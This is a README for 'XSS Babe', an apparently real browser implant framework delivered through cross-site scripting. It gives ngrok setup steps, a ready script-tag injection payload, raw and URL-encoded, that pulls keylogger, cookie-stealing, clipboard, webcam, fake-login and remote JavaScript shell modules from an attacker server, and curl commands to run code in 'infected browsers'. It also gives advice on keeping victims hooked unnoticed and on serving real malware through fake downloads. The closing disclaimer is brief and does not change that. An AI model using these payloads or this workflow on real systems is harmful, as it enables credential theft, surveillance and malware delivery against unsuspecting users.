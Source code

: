 # XSS BABE – by ekomsSavior

**XSS Babe** is a browser-based red team implant system built entirely in JavaScript and Python. It is designed for ethical cybersecurity research, browser exploitation simulation, and educational purposes. XSS Babe dynamically loads multiple payload modules into a victim's browser using a single script tag.

This tool is ideal for understanding the power of XSS-based post-exploitation, teaching students browser abuse tactics, and building real-time control panels for red team operations.

---

## Features

- Keylogger with live keystroke logging  
- JavaScript-based reverse shell command execution  
- Screenshot capture using HTML2Canvas  
- Fingerprinting (user-agent, screen resolution, timezone)  
- Browser recon and port scanning  
- Clipboard capture  
- Webcam access prompt  
- Browser history profiling  
- Password bait module with fake login form  
- Download button that serves real payloads  
- Cross-tab messaging to capture user activity across tabs  
- Dynamic auto-loader that pulls all modules from the server  
- Optional Discord webhook alerts for real-time victim beacons  
- Dashboard interface for viewing logs  

---

## Prerequisites

- Python 3  
- Pip (`pip3`)  
- A Ngrok account (free) and binary installed  
- A basic understanding of using the terminal  

---

## Installation Instructions

1. **Clone the repository**
   ```bash
   git clone https://github.com/ekomsSavior/xss_babe.git
   cd xss_babe
   ```

2. **Run the setup script**
   This installs dependencies, sets up folders, and starts the Flask server.
   ```bash
   chmod +x setup_repo.sh
   ./setup_repo.sh
   ```

---

##  Ngrok Setup Instructions (Full Walkthrough)

To run XSS Babe over the internet, you’ll need to tunnel the server using **Ngrok**.

** Step 1: Install Ngrok** — Download the binary from [https://ngrok.com/download](https://ngrok.com/download). For Kali Linux or Debian-based systems:  
```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

** Step 2: Sign Up & Get Your Auth Token** — Create a free account at [https://ngrok.com/signup](https://ngrok.com/signup), then copy your token from [https://dashboard.ngrok.com/get-started/setup](https://dashboard.ngrok.com/get-started/setup) and run:  
```bash
ngrok config add-authtoken YOUR_AUTHTOKEN_HERE
```

** Step 3: Start the Flask Server** — From your project directory, run:  
```bash
python3 server.py
```

** Step 4: Start Ngrok Tunnel** — In a new terminal window:
```bash
ngrok http 5000
```

Ngrok will give you a public URL like:
```
https://abc123.ngrok.io
```

Use this domain in all injected payloads and external links.

---

## How to Use the Payload

Once Ngrok is running and you have your public domain:

1. Inject this payload into a vulnerable XSS point:
   ```html
   <script src="https://abc123.ngrok.io/static/x.js"></script>
   ```

2. If you need it URL-encoded:
   ```
   %3Cscript%20src%3D%22https%3A%2F%2Fabc123.ngrok.io%2Fstatic%2Fx.js%22%3E%3C%2Fscript%3E
   ```

This will dynamically load all modules into the victim’s browser, including keylogger, reverse shell, recon, and more.

---

## Viewing Logs and Interacting with Victims

### Live Dashboard

Visit your dashboard from your browser to see logs in real time:
```
https://abc123.ngrok.io/
```

### Command Execution

Send JavaScript to all infected browsers:
```bash
curl -X POST https://abc123.ngrok.io/cmd -d "alert('This is a test')"
```

Example of something stealthier:
```bash
curl -X POST https://abc123.ngrok.io/cmd -d "document.body.style.background='black'"
```

The shell module fetches commands every 2 seconds and executes them silently.

---

## Maintaining Browser Access

Once a victim is hooked:

- Do not spam alert boxes — this creates suspicion  
- Use the `shell.js` module to run background JS tasks  
- Use `password_bait.js` to simulate login prompts during inactivity  
- Use `tab_messenger.js` to track movement between tabs  
- Avoid reloading the browser tab — that will clear JS execution  
- Track screenshots, clipboard, keystrokes, and tabs in real-time  
- Use Discord webhook alerts to notify you when a browser is hooked  

---

## Using Real Payloads

XSS Babe delivers **real payloads**. You may place the following in your `/payloads` folder:

- `reverse_shell.zip` – zipped payload  
- `chrome_patch.exe` – real malicious binary for simulation  
- `malware_scan_tool.apk` – Android APK for testing on phones  
- `password_list.txt` – used in bait or as decoy  

In `fake_download.js`, change the download URL to your real payload:
```js
window.location = "/payloads/reverse_shell.zip";
```

Use only in controlled environments and with full authorization.

---

## Maintaining XSS Babe

Tips and tricks for best results:

- Restart `server.py` after editing Python or JS files  
- Add or remove modules by editing `static/x.js`  
- Log files are stored in `logs/victims.txt`  
- Add your real payloads to the `/payloads` directory  
- Customize `dashboard.html` to match your engagement branding  
- Keep `.gitignore` in place to avoid pushing payloads or logs to GitHub  
- Check browser CSP headers — some sites block external scripts  
- Use Ngrok TLS (`https://`) to avoid mixed content blocking  

---

## Directory Structure

```
xss_babe/
├── server.py
├── setup_repo.sh
├── .gitignore
├── logs/
│   └── victims.txt
├── payloads/
│   ├── reverse_shell.zip
│   ├── chrome_patch.exe
│   ├── password_list.txt
│   └── malware_scan_tool.apk
├── static/
│   ├── x.js
│   ├── keylogger.js
│   ├── shell.js
│   ├── auto_cookie_steal.js
│   ├── webcam.js
│   ├── clipboard.js
│   ├── fingerprint.js
│   ├── screenshot.js
│   ├── recon.js
│   ├── history.js
│   ├── password_bait.js
│   ├── fake_download.js
│   └── tab_messenger.js
├── templates/
│   └── dashboard.html
```

---

## Ethical Statement

XSS Babe is an offensive security research tool.

It is intended only for use in:
- Your own labs  
- Authorized red team engagements  
- Security training environments  

Never deploy XSS Babe on a live system without explicit written permission. 
Misuse of this tool may be illegal.
the user assumes all risk when using this tool. 
ekomsSavior provides this tool without warranty.

---


